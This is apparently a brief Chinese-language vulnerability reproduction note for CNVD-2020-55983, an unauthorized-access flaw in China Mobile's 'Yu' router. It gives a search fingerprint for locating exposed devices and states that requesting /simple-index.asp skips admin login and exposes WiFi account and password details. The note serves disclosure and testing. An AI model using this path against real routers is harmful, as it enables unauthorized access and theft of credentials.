 # 中国移动 禹路由 simple-index.asp 越权访问漏洞 CNVD-2020-55983

## 漏洞描述

中国移动 禹路由 simple-index.asp 存在越权访问漏洞，攻击者通过漏洞可以获取账号密码等敏感信息

## 漏洞影响

```
中国移动 禹路由
```

## 网络测绘

```
title="互联世界 物联未来-登录"
```

## 漏洞复现

登录页面如下

![](images/202202162253135.png)



访问Url

```plain
/simple-index.asp
```

![](images/202202162253346.png)

越过管理员验证获取Wifl账号密码等信息